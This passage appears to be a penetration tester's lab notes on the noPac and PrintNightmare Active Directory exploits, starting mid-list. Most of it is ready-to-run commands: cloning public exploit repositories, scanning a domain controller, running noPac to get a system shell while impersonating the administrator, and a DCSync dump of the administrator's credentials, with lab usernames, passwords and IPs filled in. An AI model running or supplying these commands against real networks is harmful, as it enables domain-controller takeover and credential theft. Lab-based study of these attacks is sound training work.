 2. Change the name of the new host to match the DC SamAccountName.

3. Request a new kerberos ticket, causes the service to issue tickets under the DCs name. 

4. Have access as that service and may be provided with a system level shell on a DC.

https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware

[Link to POC](about:blank)

Need to ensure impacket is installed

#### Running the Exploit 
```shell
git clone https://github.com/Ridter/noPac.git
```
Scanning for NoPac
```shell
 sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```
Running NoPac
```shell
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```
Will need to use exact paths with smbexec.py

*Does not save the TGT in the directory on the attack host.*

DCSync the Built-In Admin Account
```shell
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```
#### Considerations
Windows Defender or another AV will likely block commands. 
### Print Nightmare
#### Description
Nickname given to two vulns
[CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)
#### Running the exploit
```shell
git clone https://github.com/cube0x0/CVE-2021-1675.git
```
May need to use another version of Impacket
```shell
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```
Check if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.
```shell
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```
